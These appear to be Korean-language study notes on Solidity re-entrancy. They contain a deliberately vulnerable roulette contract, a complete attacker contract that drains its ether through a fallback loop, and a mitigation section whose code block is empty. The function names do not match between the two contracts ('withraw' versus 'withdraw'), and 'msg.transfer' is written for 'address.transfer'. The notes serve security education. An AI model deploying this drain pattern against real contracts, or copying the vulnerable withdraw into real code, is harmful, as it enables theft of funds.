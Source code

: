 # 컨트랙트 보안

## 재진입 공격

Re-entrancy attack  

외부 컨트랙트 호출이 호출의 주체가 되는 컨트랙트로 다시 들어가는
악의적인 기능을 트리거할 때 발생하는 패턴  

```solidity
// 재진입 공격 가능한 컨트랙트 예시
contract HackableRoulette {
    mapping(address => uint) public balances;
    function betRed() payable {
        bool winner = (randomNumber() % 2 == 0);
        if(winner) balances[msg.sender] += msg.value * 2;
    }
    
    function randomNumber() returns (uint) { return 0; }
    
    function withraw() {
        uint amount = balances[msg.sender];
        msg.sender.call.value(amount)();
        balances[msg.sender] = 0;
    }
}
```

위 코드에서 사용자의 잔고를 0으로 만들기 전에 전송이 이루어진다.  
address.transfer() 대신에 address.call.value()를 사용하므로 
가스가 제한 없이 전달된다.  

즉, 인출되는 이더를 받는 컨트랙트는 HackableRoulette 컨트랙트를 
다시 호출하며 진입할 수 있으며, 재진입 시에 이더를 받는 컨트랙트의 잔고는 
여전히 전체 잔고가 된다.  

다음 예시는 이러한 보안 취약점을 이용해 HackableRoulette의 모든 이더를 
인출하는 컨트랙트이다.  

```solidity
contract ReEntrancyAttack {
    HackableRoulette public roulette;
    
    function ReEntrancyAttack(address rouletteAddress) {
        roulette = HackableRoulette(rouletteAddress);
    }
    
    function hack () payable {
        // 컨트랙트 잔고가 0 이상이고
        // 컨트랙트가 내기에 이길 때까지 빨간색에 베팅
        while(roulette.balances(address(this)) == 0) {
            roulette.betRed.value(msg.value)();
        }
        roulette.withdraw();
    }
    
    // HackableRoulette.withdraw가 폴백 호출
    function() payable {
        if (roulette.balance > roulette.balances(address(this)))
            roulette.withdraw();
    }
}
```
이 ReEntrancyAttack 컨트랙트는 HackableRoulette 컨트랙트의 주소를 
roulette에 할당하면서 인스턴스화 된다. 
hack() 함수를 호출하면 이 함수는 베팅 중 하나에서 이길 때까지 
betRed() 호출로 베팅을 계속한다.  

이는 HackableRoulette 컨트랙트에서 이더를 인출할 때 
HackableRoulette 컨트랙트의 내부 잔액이 0이 아니어야 하기 때문에 필요하다.  

잔액이 0이 아니게 되면 roulette.withdraw()를 호출해 withdarw 루프를 시작할 수 있다.  

roulette의 withdraw() 함수는 이더를 ReEntrancyAttack 컨트랙트로 보내고 
이는 폴백 함수를 트리거한다.  
폴백 함수는 또 다른 인출을 실행하며, 아직 잔고가 0이 아니기 때문에 HackableRoulette은 ReEntrancyAttack이 
전체 잔고를 다시 인출할 수 있게 한다.  

이 루프는 HackableRoulette의 컨트랙트 잔고가 ReEntrancyAttack의 내부 잔고보다 
적을 때까지 계속한다. 이 시점에서 더 이상 이더를 인출할 수 없게 된다.  

## 재진입 공격을 막는 방법

외부 컨트랙트를 호출하기 전에 잔고를 0으로 만들거나 
msg.transfer를 사용해 가스 한도를 제한하고 재진입을 방지하는 두 가지 방법이 있다.  

```solidity
// 
```